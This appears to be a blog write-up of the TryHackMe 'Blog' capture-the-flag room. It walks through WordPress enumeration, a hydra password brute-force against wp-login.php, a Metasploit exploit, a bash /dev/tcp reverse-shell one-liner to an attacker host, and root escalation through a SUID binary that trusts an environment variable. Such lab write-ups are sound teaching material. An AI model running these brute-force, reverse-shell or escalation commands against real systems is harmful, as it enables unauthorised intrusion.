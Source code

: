 ```yaml
---
layout: post
title: Blog writeup
subtitle: Billy Joel made a Wordpress blog!
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/blog/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, blog, wordpress, checker]
---
```


Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!.Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...


## Here is a machine information

| Title | Blog | 
| :------ |:--- | 
| Difficulty | Medium | 
| Point | 360 |
| Maker | Nameless0ne |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 



## RUSTSCAN, Enumeration and Gathering Information
Normally, i will use the rustscan as scan the host and gathering machine information


``` rustscan -b 500 machine-ip -- -sv -sC -A ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]

-sV -sC -A: it is Nmap custom flag when rustscan run nmap.
</em>

It will take few time to scan: 

![gs1](/assets/img/blog/1.png)

After the scan is done. There expose the blog which is using Wordpress 5.0 and have smb service.
With SMB service, let's use ENUM4LINUX to check what thing is interesting.

```
enum4linux machine-ip
```

during waiting for the enumaration. Because this blog is using wordpress. Let do wpscan to check.

```
wpscan  --url machine-ip
```

![gs1](/assets/img/blog/2.png)

 There is not quite interesting thing. Let do further user enumaration.

 ```
wpscan --url machine-ip -e u
 ```

 we got 2 username: 

 ![gs1](/assets/img/blog/3.png)

 Such as longtime with Enum4linux. the scan got the same username.

 Another way to get the username. In wordpres, they have json enpoint api. 

 it is:

 ```
 http://machine-ip/wp-json/wp/v2/users
 ```

we got the same username.

![gs1](/assets/img/blog/4.png)

Trying to find credentials of 2 users. I have 2 ways to got it.

Using hydra to crack password

```
 hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

and we got a lot of case. but nothing is valid. 

Let try with the wpscan 
```
wpscn --url machine-ip -U bjoel,kwheel =P rockyou-wordlist.txt
```

and we got the password.

![gs1](/assets/img/blog/5.png)

Now we got the credentials. login now. 

## Got revers shell

from the goole with wordpres 5.0, we got this. this have metaspoil module.

![gs1](/assets/img/blog/6.png)

At the metaspoil, set target, rhosts, username, password. and run exploit.
At meteprete, run cmd SHELL to get into shell.


![gs1](/assets/img/blog/7.png)

Now you are got into shell. Let do revers shell.

```
nc -lvnp 1234 #run at attack machine

/bin/bash -c "bash -i >& /dev/tcp/attacker-ip/1234 0>&1"   
```

Then you have revers shell.

## Privilege Escalation

as normally, let rung sudo -l but can not because we haven't user password.

Let enum with SUID

```
find / -perm /u=s 2>/dev/null
```

From the result, there is a checker SUID. it is a bit intersting.

![gs1](/assets/img/blog/8.png)

it looks like check the admin or not. Let try to revers and read throung the code. Download the binary and analyze it using Ghidra.

with the code 
```C

int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}

```

It looks like check admin envirorment. But it is just only check is null or not. we can bypass this by:

```bash
export admin=admin

/usr/sbin/hecker
```

Finally we got root user.

![gs1](/assets/img/blog/9.png)

Now we can read the root flag.

```
find / -name '*.txt' 2>/dev/null

```

you will see the hidden user flag in media.


Happy hacking!!!